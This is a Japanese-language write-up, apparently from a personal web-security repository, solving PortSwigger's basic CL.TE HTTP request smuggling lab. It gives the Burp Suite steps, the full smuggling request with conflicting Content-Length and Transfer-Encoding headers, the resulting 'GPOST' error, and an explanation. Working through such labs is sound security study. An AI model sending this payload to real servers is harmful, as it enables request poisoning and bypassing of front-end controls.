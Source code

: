 # HTTP リクエストの密輸、基本的な CL.TE の脆弱性

次のハッキングラボを実施  
https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te  
このラボにはフロントエンド サーバーとバックエンド サーバーが含まれますが、フロントエンド サーバーはチャンク エンコーディングをサポートしていません。フロントエンド サーバーは、GET メソッドまたは POST メソッドを使用しないリクエストを拒否します。

- 1. BurpSuite を起動して Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 次のリクエストを 2 回送信すると、サーバーからレスポンスが返ってきます。http 1.1 で送信するには inspector で 1.1 を選択します。
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/64ab41c3-90a4-4255-9785-64be5669427f)

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

```
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

フロントエンドサーバーは chenked に対応していないので、content-length 6 まで受けとろうとします。この時点で、要求はバックエンドに流されるようになります。バックエンドは最初のチャンクサイズが 0 だと理解しているため、G のみ受け取ります。これが次のリクエストに結合され、GPOST として扱われます。
